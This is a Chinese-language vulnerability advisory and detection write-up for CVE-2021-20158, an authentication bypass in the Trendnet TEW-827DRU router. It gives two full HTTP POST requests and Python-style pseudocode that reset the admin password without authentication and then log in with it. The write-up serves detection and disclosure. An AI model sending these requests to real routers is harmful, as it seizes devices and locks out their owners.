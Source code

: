 # Trendnet AC2600 TEW-827DRU 2.08B01 认证绕过与信息泄露漏洞（CVE-2021-20158）

## 漏洞简介
Trendnet AC2600 TEW-827DRU 路由器 2.08B01 版本存在认证绕过漏洞，攻击者可通过隐藏接口未授权修改管理员密码，进而获取设备完全控制权。

## 影响范围
- 受影响产品：Trendnet AC2600 TEW-827DRU（固件 2.08B01）
- CPE: `cpe:2.3:o:trendnet:tew-827dru_firmware:2.08b01:*:*:*:*:*:*:*`

## 漏洞原理
设备存在隐藏管理命令，未做有效认证校验，攻击者可直接通过 POST 请求修改管理员密码，随后登录后台获取敏感信息。

## 利用方式与攻击流程
1. 攻击者向 `/apply_sec.cgi` 发送特定 POST 请求，设置新的管理员密码。
2. 随后用新密码登录后台，获取设备配置信息。

## 探测原理与流程
### 请求包示例
1. 设置新密码：
```http
POST /apply_sec.cgi HTTP/1.1
Host: target.com

ccp_act=set&action=tools_admin_elecom&html_response_page=dummy_value&html_response_return_page=dummy_value&method=tools&admin_password=newpass
```
2. 登录后台：
```http
POST /apply_sec.cgi HTTP/1.1
Host: target.com

html_response_page=%2Flogin_pic.asp&login_name=YWRtaW4%3D&log_pass=bmV3cGFzcw==&action=do_graph_auth&login_n=admin&tmp_log_pass=&graph_code=&session_id=
```

### 响应与判定逻辑
- 响应体包含 `setConnectDevice`、`setInternet`、`setWlanSSID`、`TEW-827DRU`。
- 响应头包含 `text/html`，状态码为 200。

### 伪代码
```python
# 步骤1：设置新密码
requests.post('http://target.com/apply_sec.cgi', data='ccp_act=set&action=tools_admin_elecom&...&admin_password=newpass')
# 步骤2：用新密码登录
resp = requests.post('http://target.com/apply_sec.cgi', data='...log_pass=bmV3cGFzcw==...')
if resp.status_code == 200 and all(x in resp.text for x in ['setConnectDevice','setInternet','setWlanSSID','TEW-827DRU']):
    print('存在认证绕过与信息泄露漏洞')
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[发送设置密码请求]
    B --> C[用新密码登录]
    C --> D[检查响应内容]
    D --> E{是否包含特征关键字?}
    E -- 否 --> F[不存在漏洞]
    E -- 是 --> G[存在认证绕过与信息泄露漏洞]
```

## 参考链接
- [Tenable 安全通告](https://www.tenable.com/security/research/tra-2021-54)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-20158)
- [ARPSyndicate cvemon](https://github.com/ARPSyndicate/cvemon)
- [ARPSyndicate kenzer-templates](https://github.com/ARPSyndicate/kenzer-templates) 